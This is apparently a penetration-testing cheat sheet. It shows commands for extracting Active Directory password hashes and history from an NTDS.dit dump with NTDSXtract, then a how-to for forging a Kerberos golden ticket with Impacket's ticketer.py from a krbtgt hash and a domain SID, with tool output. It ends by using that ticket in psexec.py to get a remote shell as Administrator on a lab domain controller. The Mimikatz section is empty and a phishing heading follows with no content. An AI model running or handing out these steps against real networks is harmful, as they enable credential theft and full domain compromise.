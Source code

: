 `python ~/tools/NTDSXtract\ 1.0/dsusers.py ntds.dit.export/datatable.3 ntds.dit.export/link_table.5 --passwordhashes SYSTEM_ad --passwordhistory SYSTEM_ad > ad_full_extract_1`

`~/git/ntdsxtract/dsusers.py datatable.3 link_table.4 ./ --syshive SYSTEM_ad --passwordhashes --passwordhistory --pwdformat ocl --lmoutfile tel_lm --ntoutfile tel_nt`

## How To - Create and Use a Golden Ticket

You will need:

* The FQDN of the domain: `fra.evilcorp.lab2`
* The SID of the domain: `S-1-5-21-2894840767-735700-3593130334`
* The NTLM hash of the `krbtgt` account: `25619bab39a137291b536a7bf42c6780`
* The `samAccountName` of the user to impersonate (preferably a domain admin): `Administrator`

### With Impacket from Linux

Create the ticket.
`ticketer.py -nthash 25619bab39a137291b536a7bf42c6780 -domain-sid S-1-5-21-2894840767-735700-3593130334 -domain fra.evilcorp.lab2 Administrator`

``` text
Impacket v0.9.19-dev - Copyright 2019 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for fra.evilcorp.lab2/Administrator
[*]   PAC_LOGON_INFO
[*]   PAC_CLIENT_INFO_TYPE
[*]   EncTicketPart
[*]   EncAsRepPart
[*] Signing/Encrypting final ticket
[*]   PAC_SERVER_CHECKSUM
[*]   PAC_PRIVSVR_CHECKSUM
[*]   EncTicketPart
[*]   EncASRepPart
[*] Saving ticket in Administrator.ccache
```

That will create a file `Administrator.ccache` in the current directory.

Export a variable of the file:
`export KRB5CCNAME=/home/user/Administrator.ccache`

Use it:
`psexec.py -dc-ip 192.168.58.11 -target-ip 192.168.58.11 -no-pass -k fra.evilcorp.lab2/Administrator@192.168.58.11`

### With Mimikatz from Windows

Open Mimikatz and fire the commands:

Create a golden ticket and save it to a file in current directory:

## How To − Malware phising
